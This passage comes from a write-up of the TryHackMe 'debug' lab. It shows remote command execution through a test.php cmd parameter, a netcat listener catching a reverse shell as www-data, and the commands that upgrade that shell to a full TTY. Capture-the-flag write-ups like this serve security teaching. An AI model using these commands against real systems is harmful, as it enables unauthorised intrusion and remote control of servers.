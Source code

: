 ![4](/assets/images/thm/debug/4.png)

## Checking if the page exists
```bash
reddevil@ubuntu:~/Documents/tryhackme/debug$ curl http://10.10.201.86/test.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
We get code execution on the box.


## Reverse shell on the box
```bash
reddevil@ubuntu:~/Documents/tryhackme/debug$ nc -nvlp 9001                 
Listening on 0.0.0.0 9001                                                  
Connection received on 10.10.143.185 55780                                 
/bin/sh: 0: can't access tty; job control turned off
$
```

## Getting a proper TTY
Now lets get a proper shell with auto completion.
```bash
$ python -c "import pty;pty.spawn('/bin/bash')"
```
Hit CRTL+z to background the current process and on local box type
```bash
redevil@ubuntu:~/Documents/tryhackme/debug$ stty raw -echo
```
and type fg and hit enter twice and on the reverse shell export the TERM as xterm.
```bash
www-data@osboxes:/var/www/html$ export TERM=xterm
```
Now we have a proper shell.
We are running as www-data user
